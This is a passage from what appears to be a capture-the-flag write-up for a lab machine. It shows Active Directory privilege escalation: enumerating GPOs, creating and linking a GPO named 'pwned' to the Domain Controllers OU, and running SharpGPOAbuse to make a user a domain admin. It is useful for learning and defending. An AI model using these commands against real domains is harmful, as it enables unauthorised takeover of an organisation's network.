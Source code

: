 ```python
get-adorganizationalunit -filter *|select name, distinguishedname
get-gpo -all
```

<br/><br/>
![image.png]({{ '/assets/images/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75_image_42.png' | relative_url }})
<br/><br/>
Here we are creating a new gpo and linking it to the Domain Controllers Organizational Unit, this means that every change applied to this GPO will affect all objects within Domain Controllers OU
<br/><br/>

```python
New-GPO -Name pwned | New-GPLink -Target "OU=DOMAIN CONTROLLERS, DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

<br/><br/>
![image.png]({{ '/assets/images/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75_image_43.png' | relative_url }})
<br/><br/>
Now we use SharpGPOAbuse to add M.SchoolBus user as a local admin of all objects within the linked OU, since the GPO is linked to Domain Controllers this will result in M.SchoolBus becoming a Domain Admin
<br/><br/>

```python
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pwned
```

<br/><br/>
![image.png]({{ '/assets/images/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75_image_44.png' | relative_url }})
<br/><br/>
Update Group Policies
<br/><br/>
![image.png]({{ '/assets/images/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75_image_45.png' | relative_url }})
<br/><br/>
Create a new shell session as this user to obtain the root flag
<br/><br/>
![image.png]({{ '/assets/images/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75/25394fcc-7e99-4c50-a851-13c850b39132-export-00214464-ccf0-40e0-91e1-e970405d3d75_image_46.png' | relative_url }})
<br/><br/>
Machine pwned!!@!@!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">

